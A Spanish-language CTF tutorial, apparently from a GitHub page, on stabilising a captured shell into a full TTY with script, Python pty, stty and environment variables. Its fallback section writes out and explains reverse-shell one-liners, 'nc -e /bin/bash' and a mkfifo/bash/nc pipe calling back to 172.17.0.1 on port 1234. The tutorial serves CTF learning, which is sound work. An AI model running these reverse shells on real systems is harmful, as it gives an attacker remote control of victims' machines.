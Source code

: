 
------------------

 >El tratamiento de la TTY por lo general no varia mucho en CTFs. Aunque, a veces solo son necesarios algunos pasos, mientras que a veces hay que prácticamente volver a hacer una terminal, lo mas usual es:
 
>Primero:
 
```bash
 script /dev/null -c bash
```
_Script solicita una PTY (Pseudo terminal) al kernel, luego, ejecuta en el proceso hijo que se crea, el comando que pasamos con la flag "-c", es decir una bash. Por ultimo, script no graba nada de la sesión al redirigirlo al /dev/null (Si no esta script disponible, puedes usar Python: python3 -c 'import pty; pty.spawn("/bin/bash")')._

>Ahora, con un CTRL+Z enviamos la Shell a segundo plano y desde nuestra terminal:

```bash
stty raw -echo; fg
```
1. _stty es la herramienta que nos ayudara a cambiar los parámetros de la terminal (eco, señales, etc.)
2. _raw es la flag que nos ayudara a desactivar el procesamiento de señales como CTRL+C (para que al hacerlo la shell no muera) o CTRL+Z (para no poner en segundo plano la shell por error)
3. _-echo Desactiva el echo del teclado, que nos puede dar problemas
4. _; fg (foreground) devuelve a primer plano nuestra querida Shell O.o

>Por ultimo vamos a establecer las variables de entorno correctas para una Shell totalmente funcional:

```bash
export TERM=xterm
export SHELL=/bin/bash
```
_Le estamos diciendo a la Shell que deseamos que la variable de entorno TERM (responsable de especificar el tipo de terminal usado), sea igual a Xterm.
Sí TERM está mal establecido en la máquina, cosas como clear, nano, vim, less, no funcionan correctamente. Y luego Establecemos /bin/bash como la Shell por defecto para que otras herramientas la usen.

>Como no siempre podemos seguir el paso a paso, aquí hay algunas alternativas si la terminal que obtenemos nos es muy limitada:

>_Si al ingresar a la maquina no podemos usar ni "script" ni "Python" para solicitar una Pseudo terminal al kernel:_

```bash
/bin/bash -i
```
_Si se puede, bash o sh son buenas alternativas, con la flag -i de "Interactive"_

```bash
perl -e 'exec "/bin/bash";'
```
_No tiene que ser Python, cualquier lenguaje interpretado (Como Perl) nos puede ayudar_

```bash
nc -e /bin/bash 172.17.0.1 1234
```
_En ultima instancia, cuando la Shell falle demasiado, podemos hacer una reverse Shell nuevamente con Netcat a nuestra IP por un puerto que no este en uso. Para ello primero debemos estar a la escucha desde nuestra maquina (nc -nlvp 1234)_

>_Si la anterior instancia con Netcat no funciona o no soporta la opción "-e", la tradicional es mas fiable:_

```bash
mkfifo /tmp/f; /bin/cat /tmp/f | /bin/bash -i 2>&1 | nc 172.17.0.1 1234 > /tmp/f
```
1. _Con "mkfifo" Podemos crear un archivo FIFO (Archivo especial que permite la comunicación entre procesos) en la ruta /tmp/f _
2. _Con "; /bin/cat /tmp/f" leemos el pipe (O archivo FIFO) que acabamos de crear con "cat".
3. Con "| /bin/bash -i" redirigimos el stdout o salida estándar del "cat" a una Shell interactiva como comando.
4. Con "2>&1" Redirigimos los errores o stder a la salida estándar o stdout (Para que también se muestren errores en la Shell que obtendremos)
5. Por ultimo, creamos una conexión con "nc" entre nuestra ip y la victima, redirigiendo todo lo que escribamos como atacantes al archivo /tmp/f de la maquina victima.
_Para resumirlo, estamos creando un archivo FIFO que será leído con "cat" y ejecutado con "/bin/bash" en la maquina victima, luego hacemos una conexión con "nc" entre nuestra IP atacante y el archivo FIFO en la IP victima, esta conexión nos da la posibilidad de escribir comandos en tal archivo, este los lee con cat y ejecuta con /bin/bash para luego devolver las respuestas de los comandos a la IP atacante. En pocas palabras, una comunicación bidireccional_

>_Si no podemos exportar variables de entorno normalmente por un "export" boqueado:_

```bash
TERM=xterm SHELL=/bin/bash /bin/bash -i
```
_Esta sintaxis hace exactamente lo mismo que buscamos lograr en un tratamiento de la TTY tradicional, pero, sin el export._

```bash
env TERM=xterm SHELL=/bin/bash /bin/bash
```
Si es necesario, podemos también usar del binario "env" (Cuando nos es permitido) para establecer variables de entorno TEMPORALMENTE